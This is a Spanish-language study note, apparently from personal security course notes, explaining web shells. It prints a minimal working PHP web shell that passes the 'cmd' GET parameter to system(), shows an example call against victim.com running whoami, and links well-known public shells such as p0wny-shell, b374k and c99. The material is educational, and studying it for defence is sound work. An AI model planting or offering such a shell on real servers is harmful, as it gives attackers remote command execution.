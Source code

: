 ```yaml
---
layout: apunte
title: "7. Web Shell"
---
```


Una web shell es un script escrito en un lenguaje soportado por un servidor web comprometido que ejecuta comandos a través del propio servidor. Suele ser un archivo que contiene código que ejecuta comandos y controla archivos.

Pueden ser escritas en diferentes lenguajes soportados por servidores web, como PHP, ASP, JSP o CGI.

---------------------
<h2>Ejemplo de Web Shell PHP</h2>
Veamos un ejemplo de una web shell en PHP para entender cómo funciona este proceso:

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

La shell de arriba puede guardarse en un archivo con extensión php, como `shell.php`, y luego subida a un servidor por el atacante para explotar vulnerabilidades como Unrestricted File Upload, File Inclusion, Command Injection y otras.

Después de desplegar la webshell en el servidor puede ser accedida a través de la URL. Según el ejemplo de arriba, tendríamos que realizar una petición GET con el parámetro "cmd". Si la página fuera `http://victim.com/uploads/shell.php`:

`http://victim.com/uploads/shell.php?cmd=whoami`

Esto ejecutará el comando whoami en el servidor y devolverá el resultado a través del navegador.

---------------------
<h2>Web Shells Existentes Disponibles Online</h2>
El poder de los lenguajes soportados por los servidores web puede resultar en web shells con varias funcionalidades y evitar la detección a la vez. Veamos algunas de las más populares:

- [p0wny-shell](https://github.com/flozz/p0wny-shell): Una web shell de un solo archivo PHP minimalista que permite RCE.
  !**Pasted image 20251017174237.png**
- [b374k shell](https://github.com/b374k/b374k): Una web shell PHP más rica en funcionalidades con manejo de archivos y ejecución de comandos, entre otras funcionalidades.
  !**Pasted image 20251017174417.png**
- [c99 shell](https://www.r57shell.net/single.php?id=13): Una web shell robusta y bien conocida con funcionalidades extensas.
  !**Pasted image 20251017174504.png**

Si quieres encontrar más web shells: https://www.r57shell.net/index.php 

